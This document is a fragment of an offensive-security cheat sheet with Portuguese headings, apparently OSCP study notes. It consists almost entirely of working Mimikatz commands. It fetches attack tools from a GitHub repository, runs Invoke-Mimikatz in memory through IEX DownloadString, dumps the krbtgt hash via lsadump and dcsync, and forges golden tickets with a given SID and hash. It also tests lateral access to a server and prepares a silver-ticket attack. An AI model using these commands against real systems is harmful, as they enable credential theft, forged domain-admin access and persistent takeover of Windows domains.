 ```
.\mimikatz.exe
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/x64/mimikatz.exe -Outfile mimikatz.exe
.\mimikatz.exe
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1 -Outfile Invoke-Mimikatz.ps1
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz
```
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1")
Invoke-Mimikatz
```
##### GOLDEN TICKET MIMIKATZ - PEGAR O HASH DE KRBTGT (COMO ADMIN):
```
privilege::debug
lsadump::lsa /patch
```
##### GOLDEN TICKET MIMIKATZ - PEGAR O HASH DE KRBTGT (COMO ADMIN MAS TERMINAL NORMAL E DE QQ MAQUINA):
```
Invoke-Mimikatz
lsadump::dcsync /user:tech\krbtgt
```
##### GOLDEN TICKET MIMIKATZ - GERAR TICKET P QQ USUARIO EM QQ MAQUINA (TERMINAL NORMAL):
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1")
Invoke-Mimikatz
kerberos::golden /User:vegeta /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /krbtgt:28ec87e3414d019c944786bf447fd666 id:500 /groups:512 /startoffset:0 /ending:600 /renewmax:10080 /ptt
```
##### GOLDEN TICKET MIMIKATZ - GERAR TICKET P QQ USUARIO EM QQ MAQUINA (TERMINAL NORMAL) - SALVAR O TICKET COMO TICKET.KIRBI:
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1")
Invoke-Mimikatz
kerberos::golden /User:vegeta /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /krbtgt:28ec87e3414d019c944786bf447fd666 id:500 /groups:512 /startoffset:0 /ending:600 /renewmax:10080 /ticket
```
##### GOLDEN TICKET MIMIKATZ - TESTE DE CONECTIVIDADE (NAO CONECTOU NO DC):
```
dir \\server01\c$
enter-pssession -computername server01
whoami > c:\eu.txt
```
## SILVER TICKET MIMIKATZ
##### SILVER TICKET MIMIKATZ - LOAD REQUIREMENTS
```
curl https://github.com/n0ts0cial/oscp/raw/main/mimikatz_trunk.zip -Outfile mimikatz_trunk.zip
expand-archive -path ".\mimikatz_trunk.zip" -destinationpath ".\"
cd x64
.\mimikatz.exe
```
